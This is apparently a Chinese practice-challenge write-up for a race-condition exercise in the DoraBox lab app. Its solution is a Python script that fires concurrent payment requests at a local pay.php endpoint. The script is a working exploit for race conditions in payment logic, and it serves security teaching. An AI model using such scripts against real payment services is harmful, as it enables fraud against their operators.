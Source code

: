 # 题目：条件竞争

### 题目描述：[练习]条件竞争

### 题目难度： 🌟

### 维护：le31ei

### KEY: `无`

### 配置信息： 
1. 开放端口： `8083`

### 解题过程：
```python 
import requests
import threading
import Queue

url = "http://127.0.0.1/DoraBox/race_condition/pay.php"
threads = 25
q = Queue.Queue()

for i in range(50):
    q.put(i)

def post():
    while not q.empty():
        q.get()
        r = requests.post(url, data={'money': 1})
        print(r.text)

if __name__ == '__main__':
    for i in range(threads):
        t = threading.Thread(target=post)
        t.start()

    for i in range(threads):
        t.join() 

```